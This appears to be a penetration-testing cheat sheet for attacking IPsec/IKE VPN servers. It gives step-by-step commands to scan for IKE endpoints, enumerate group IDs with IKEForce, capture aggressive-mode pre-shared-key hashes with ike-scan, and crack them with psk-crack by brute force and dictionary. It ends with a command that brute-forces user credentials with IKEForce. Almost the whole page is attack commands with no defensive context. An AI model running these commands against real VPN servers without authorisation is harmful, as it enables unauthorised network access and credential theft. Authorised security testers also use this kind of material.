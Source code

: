 # Exploit

1. Identify VPN Servers 

   ```text
   ./udp-protocol-scanner.pl -p ike [IP]
   ```

2. Enumerate with IKEForce to obtain the group ID 

   ```text
   ./ikeforce.py [IP] –e –w [wordlists/groupnames.dic]
   ```

3. Use ike-scan to capture the PSK hash from the IKE endpoint 

   ```text
   ike-scan –M –A –n [example_group] -P [hash-file.txt] [IP]
   ```

4. Use psk-crack to crack the hash 

   ```text
   psk-crack [hash-file.txt]
   ```

   * More advancded cracking options 

     ```text
     psk-crack -b 5 TARGET-IPkey
     ```

     ```text
     psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
     ```

     ```text
     psk-crack -d /path/to/dictionary-file TARGET-IP-key
     ```

## IkeForce

```text
pip install pyip 
git clone https://github.com/SpiderLabs/ikeforce.git 
./ikeforce.py [IP] -b -i [group id] -u [user] -k psk123 -w [passwords.txt] -s 1
```

